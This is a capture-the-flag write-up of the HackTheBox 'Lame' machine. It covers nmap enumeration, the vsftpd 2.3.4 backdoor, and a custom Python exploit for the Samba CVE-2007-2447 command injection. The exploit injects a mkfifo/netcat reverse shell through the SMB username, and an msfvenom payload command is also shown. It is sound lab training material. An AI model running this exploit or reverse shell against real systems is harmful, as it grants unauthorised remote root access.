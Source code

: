 ```yaml
---
title: HTB - Lame
date: 2020-07-23 20:12
categories: [Writeups, hackthebox]
tags: [htb, windows, machines, lame, vsftpd-v2.4.5, smb-v3.0.20, nmap, ftp, smbmap, smbclient, tcpdump, netcat, metasploit, msfvenom, cve-2007-2447, cve-2011-2523, python3, custom-exploit]
---
```


This box has two relatively wellknown CVEs for FTP and SMB services running on it. We must focuse on both of them in order to get to *ROOT*. 

## NMAP

Start with NMAP scan and run default scripts on open ports:
``` terminal
$ sudo nmap -sV -sC -O -p21,22,139,445 10.10.10.3 -oA tcp-full-scan
```
![nmap-scan](/assets/img/sample/htb-lame-nmap-scan.png)
SSH, FTP and SMB services are open on the box.
### FTP
FTP server is running vsftpd v2.3.4. and anonymouse login is allowed. Access the ftp server:
``` terminal
$ ftp 10.10.10.3
```
![ftp-enum](/assets/img/sample/htb-lame-ftp.png)
There is no data hosted on the server and no write access. Searching the internet for vsftpd v2.3.4 reveals critical vulnerability that vsftpd v2.3.4 has a [**Backdoor in its source code [CVE-2011-2523]**](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523). This backdoor opens a shell on port 6200/tcp.
> The backdoor payload is interesting. In response to a :) smiley face in the FTP username, a TCP callback shell is attempted. There is no obfuscation. More interestingly, there's no attempt to broadcast any notification of installation of the bad package. So it's unclear how victims would be identified; and also pretty much guaranteed that any major redistributor would notice the badness. Therefore, perhaps someone was just having some lulz instead of seriously trying to cause trouble.

So we should definitely exploit it :). we have `nmap` script to verify this CVE.
```terminal
$ sudo nmap --script=ftp-vsftpd-backdoor -p 21 10.10.10.3
```
![ftp-backdoor-scan](/assets/img/sample/htb-lame-ftp-script.png)
hmm... the script didnt return any output. This scripts runs the `id` command on target host and returns the output if successful. ==Something looks wrong==. 

Now **Metasploit** also has a script to exploit this vulnerability but to be sure do it manually. Here are the steps:
1. run `tcpdump` on ethernet interface.
```terminal
$ sudo tcpdump -nntttt -i tun0
```
2. login to ftp server with username `:)`
![ftp-enum](/assets/img/sample/htb-lame-ftp-manual.png)

So far, it surely looks like a rabbit hole. Move on to next port for now.

### SMB
SMB is running v3.0.20-Debian on server and message signing is also diabled. Check for Null session first.
``` terminal
$ smbmap -H 10.10.10.3
```
![smb-enum](/assets/img/sample/htb-lame-smb-list.png)
Server allows **READ,WRITE** access on **tmp** folder. Now recursively list all the contents of this directory:
``` terminal
$ smbmap -H 10.10.10.3 -R tmp
```
![smb-enum-tmp](/assets/img/sample/htb-lame-smb-tmp.png)
There is no meaningful information in shared data.

Google search for SMB v3.0.20 shows that it has a [**Remote Command Injection Vulnerability [CVE-2007-2447]**](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

## Getting Shell
**Metasploit** has a builtin script for this exploit, but this vulnerability is pretty straight forward. AND.. there is no fun in that. LAME!!!!!

Root cause of this CVE is the unfiltered information parsed by `/bin/sh` which is provided to MS-RPC(port 139) and is supposed to be used for running non-default scripts. so it is possible to run any command without needing any Authentication.

### CVE-2007-2447 Script

Let's write the script in *Python3*. We need to get `pysmb` library to authenticate with smb. The exploit script does not need anything more than a *RPC Connect Request*. 

Write a simple POC:

```python
#!/usr/bin/env python3
from smb.SMBConnection import SMBConnection
SMBConnection(
	"/=`nohup ping -c 3 10.10.14.33`", 
    "", 
    "", 
    "",
).connect("10.10.10.3", 139)
```
Listen on **tun0** with `tcpdump` and execute script.

![smb-enum](/assets/img/sample/htb-lame-smb-pingreply.png)
We get a ping reply which confirms *Arbitrary Code Execution*. Replace payload with reverse shell. Generate Shellcode for payload with `msfvenom`. 
```terminal
$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.33 LPORT=2222 EXITFUNC=thread
```
![payload-with-msfvenom](/assets/img/sample/htb-lame-msfvenom.png)
Now replace the `ping` command in Python script with netcat reverse shell payload
```python
from smb.SMBConnection import SMBConnection

SMBConnection(
    "/=`nohup mkfifo /tmp/lmzf; nc 10.10.14.33 2222 0</tmp/lmzf | /bin/sh >/tmp/lmzf 2>&1; rm /tmp/lmzf`",
    "",
    "",
    "",
).connect("10.10.10.3", 139)
```
Open `netcat` listener on port `2222` and execute script.
![ROOT!!!!!](/assets/img/sample/htb-lame-root.png)
And finally we have the Root Shell!! Lame! :)








